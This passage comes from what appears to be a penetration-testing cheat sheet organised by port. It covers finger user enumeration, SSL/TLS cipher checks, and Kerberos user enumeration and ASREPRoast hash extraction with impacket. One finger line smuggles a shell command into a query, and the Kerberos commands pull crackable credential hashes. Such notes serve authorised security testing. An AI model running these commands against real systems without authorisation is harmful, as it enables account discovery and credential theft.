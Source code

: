 ```
$ finger-user-enum.pl -U users.txt -t $ip
```
{% endtab %}

{% tab title="Command Execution" %}
```
#finger “/bin/ls -a /@domain.com”
```
{% endtab %}
{% endtabs %}

## 80/443 - Web&#x20;

{% tabs %}
{% tab title="SSL/TLS" %}
Open a connection

* ```
  $ openssl s_client -connect $ip:443
  ```

Basic SSL ciphers check

* ```
  $ nmap --script ssl-enum-ciphers -p 443 $ip
  ```

Look for unsafe ciphers such as Triple-DES and Blowfish

Very complete tool for SSL auditing is testssl.sh, finds BEAST, FREAK, POODLE, heart bleed, etc...
{% endtab %}
{% endtabs %}

{% content-ref url="../web-app-hacking.md" %}
[web-app-hacking.md](../web-app-hacking.md)
{% endcontent-ref %}

## 88/464 - Kerberos

<details><summary>Tools and Guides</summary></details>

{% tabs %}
{% tab title="User Enum" %}
```
$ nmap -p88 --script krb5-enum-users --script-args krb5-enum-users.realm=research $ip
```
{% endtab %}

{% tab title="ASREPRoast" %}
```
ASREPRoast:
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```
